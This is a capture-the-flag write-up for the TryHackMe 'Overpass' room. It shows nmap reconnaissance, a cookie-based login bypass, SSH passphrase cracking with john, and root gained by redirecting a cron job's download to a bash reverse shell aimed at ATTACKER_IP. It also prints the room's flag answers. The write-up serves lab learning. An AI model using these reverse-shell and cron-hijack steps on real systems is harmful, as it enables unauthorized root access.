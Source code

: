 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Starting off with some `nmap` scans:
```shell-session
$ sudo nmap -sV -vv --top-ports 2000 -oN nmap_scan.txt TARGET_IP
...

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Vuln script scan:
$ sudo nmap -sC -vv --script=vuln -p22,80 -oN nmap_vulnscan.txt TARGET_IP
...
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-passwd: ERROR: Script execution failed (use -d to debug)
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-enum: 
|   /admin.html: Possible admin folder
|   /css/: Potentially interesting folder
|   /downloads/: Potentially interesting folder
|_  /img/: Potentially interesting folder
| http-jsonp-detection: 
| The following JSONP endpoints were detected: 
|_/main.js
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
```

Nothing interesting in the results from the `vuln` script. Visiting the `/downloads/` page for the target, we're presented with some download options, one of which allows us to download the source code for the password manager. The source code gives us the following information:

1. The password manager encrypts it's passwords using `ROT47`.
2. The program stores all the passwords on the machine rather than a remote server.

This aside, we can probably try to brute force the `/admin/` login page, but that's a waste of time. Inspecting the `/admin/` page shows that it uses 3 files: `main.js`, `cookie.js` and  `login.js`. Upon further inspection of `login.js` we come across the `login()` function:


\ 

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

The function's logic dictates that if the credentials supplied are valid, it sets the `SessionToken` cookie. We can exploit this behavior (given that the server doesn't validate the cookie) by editing the cookie. Once we set the `SessionToken` cookie to some random stuff, we're taken to the following page:
![](admin_success.png)

We now have a ssh private key as well as a username to go with (`james`). We can use `ssh` to log into the machine as James.

## Gaining Access

The ssh key given also requires a passphrase, we'll try to bruteforce it using `ssh2john`:
```shell-session
$ ssh2john sshkey.rsa > sshkey.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt ./sshkey.hash
...
james13          (sshkey.rsa)
```

With this passphrase, we can now `ssh` into the machine as james:
```shell-session
$ ssh -i sshkey.rsa james@TARGET_IP
Enter passphrase for key 'sshkey.rsa':
...

james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
```

And thus, we have the user flag!
>  Hack the machine and get the flag in user.txt 
> 
> Answer: `thm{65c1aaf000506e56996822c6281e6bf7}`

## Privilege Escalation

With access to the machine as james, we can move onto getting root privileges. Let's have a look at the `todo.txt` file in James' home directory:
```shell-session
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

For the getting root privileges, we can make use of the convenient `LinPeas` script:
```shell-session
james@overpass-prod:~$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
...
...

* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

There's a `cron` job that runs as root. Unfortunately we cannot edit this script with the current user's privileges. We can, however, redirect the domain `overpass.thm` to something else and hijack the process from there:
```shell-session
127.0.0.1 localhost
127.0.1.1 overpass-prod
ATTACKER_IP overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Editing the `/etc/hosts` file and redirecting the overpass.thm domain to our own machine, we can make the cron job download a custom script (a reverse shell in this case) and execute it as root. 
```shell-session
# On our machine:
$ mkdir -p downloads/src 
$ cd downloads/src
$ echo "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" > buildscript.sh
$ chmod +x /downloads/src/buildscript.sh
$ python3 -m http.server 80 

# In a different teminal session:
$ nc -nvlp 4444
root@overpass-prod:~# whoami
root

root@overpass-prod:~# ls
buildStatus
builds
go
root.txt
src

root@overpass-prod:~# cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

> Escalate your privileges and get the flag in root.txt
> 
> Answer: `thm{7f336f8c359dbac18d54fdd64ea753bb}`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Overpass](https://tryhackme.com/room/overpass)

